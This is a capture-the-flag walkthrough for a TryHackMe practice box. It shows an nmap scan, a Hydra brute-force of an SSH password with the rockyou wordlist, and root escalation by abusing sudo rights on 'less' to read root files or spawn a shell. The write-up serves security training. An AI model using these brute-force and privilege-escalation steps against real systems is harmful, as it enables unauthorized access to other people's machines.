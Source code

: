 ```bash
# PLATFORM          . THM
# CTF NAME          . Brooklyn Nine Nine
# DESCRIPTION       . This room is aimed for beginner level hackers but anyone can try to hack this box. There are two main intended ways to root the box.
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/brooklynninenine
```

```
sudo nmap -sSVC -T5 10.10.189.164 -p- -oN brooklyn911
```

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.11.53.46
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt

22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 167f2ffe0fba98777d6d3eb62572c6a3 (RSA)
|   256 2e3b61594bc429b5e858396f6fe99bee (ECDSA)
|_  256 ab162e79203c9b0a019c8c4426015804 (ED25519)

80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

- From this scan we can already see that `FTP` supports anonymous login and that there's a `.txt` file. Let's check it out.

```
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

- Alright. We got two potential usernames, `amy` and `jack`. 

- The webserver itself didn't reveal nothing interesting first sight, but upon checking the source code, we find a hint

```
<!-- Have you ever heard of steganography? -->
```

- Let's check the wallpaper

```bash
wget http://10.10.189.164/brooklyn99.jpg
```

- No idea if I'm doing something wrong or not, but it might've been something to get us off the track.

```
steghide: can not uncompress data. compressed data is corrupted.
```

- I couldn't find anything useful using `binwalk`, `strings` or by analyzing the magic numbers. 

- However, while I was checking the jpg I also ran `hydra` against `ssh` to see if we can bruteforce `jake`'s password.

```
 hydra -l jake -P /usr/share/wordlists/rockyou.txt 10.10.189.164 ssh
```

- And we could. Let's check the box.

- First flag is in `/home/holt/user.txt`

- By checking `sudo -l` we can see that we can run `/usr/bin/less` as sudo, which can be exploited to elevate our privileges to `root`.

METHOD 1 : read the flag directly

```bash
sudo less /root/root.txt
```

METHOD 2 : spawn root shell

```bash
sudo less /etc/profile
!/bin/bash
```

